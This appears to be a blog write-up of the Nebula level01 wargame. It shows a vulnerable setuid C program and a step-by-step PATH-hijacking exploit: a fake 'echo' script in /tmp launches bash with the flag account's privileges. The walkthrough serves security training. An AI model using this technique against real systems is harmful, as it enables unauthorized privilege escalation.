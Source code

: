 ```yaml
---
layout: post
title:  "exploit-exercises.com - nebula - level01"
categories: exploit-exercises.com
---
```


In the second nebula level we need to find and exploit a vulnerability in the program below:

{% highlight c %} 
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{% endhighlight %}

The last line is interesting. Instead of calling just `echo and now what?` the program runs the command through /usr/bin/env which means that it will run whatever the default version of `echo` is in the current **env**ironment or to be more precisely, the first `echo` executable that appears in the user's `$PATH`.

Let's check our $PATH:
```bash
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

So first it will look for the `echo` program in `/usr/local/sbin`, then in `/usr/local/bin` and so on. Now if we change the `$PATH` variable and introduce a path where we place a file called `echo` then this file will be executed!

```bash
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level01@nebula:~$ PATH=/tmp:$PATH
level01@nebula:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Let's place the `bash` program in `/tmp` and rename it to `echo`:

```bash
level01@nebula:/home/flag01$ whereis bash
bash: /bin/bash /etc/bash.bashrc /usr/share/man/man1/bash.1.gz
level01@nebula:/home/flag01$ cp /bin/bash /tmp/
level01@nebula:/home/flag01$ ls -l /tmp/
total 904
-rwxr-xr-x 1 level01 level01 916692 2018-05-27 01:11 bash
level01@nebula:/home/flag01$ mv /tmp/bash /tmp/echo
level01@nebula:/home/flag01$ ls -l /tmp/
total 904
-rwxr-xr-x 1 level01 level01 916692 2018-05-27 01:11 echo
```

Now if we run the flag01 program our fake echo command will run and we will have a new shell which runs with the rights of the owner of the flag01 program:

```bash
level01@nebula:/home/flag01$ ./flag01 
echo: and: No such file or directory
```

What happened here? The program tries to call echo (now bash) with the arguments `and now what?`. From `man bash`: *If  arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands.  If bash is invoked in this fashion,  $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits.  Bash's exit status is the exit  sta‐tus  of the last command executed in the script. If no commands are executed the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.*
We have to find a way to ignore these arguments. Let's write a simple script which opens a new shell and ignores `and now what?`:

```bash
#!/bin/bash
bash
```

Save this in a file called `echo` under `/tmp`, make it executable and run the program again:

```bash
level01@nebula:/home/flag01$ ls -l /tmp/
total 4
-rw-rw-r-- 1 level01 level01 17 2018-05-27 02:01 echo
level01@nebula:/home/flag01$ chmod +x /tmp/echo 
level01@nebula:/home/flag01$ ls -l /tmp/
total 4
-rwxrwxr-x 1 level01 level01 17 2018-05-27 02:01 echo
level01@nebula:/home/flag01$ cat /tmp/echo 
#!/bin/bash
bash
level01@nebula:/home/flag01$ ./flag01 
flag01@nebula:/home/flag01$ whoami
flag01
```

Success! Now let's grab the flag:

```bash
flag01@nebula:/home/flag01$ getflag 
You have successfully executed getflag on a target account
```

<script src="https://asciinema.org/a/KKOjmYBfe3nJgrDIz3k5SFuex.js" id="asciicast-KKOjmYBfe3nJgrDIz3k5SFuex" async></script>
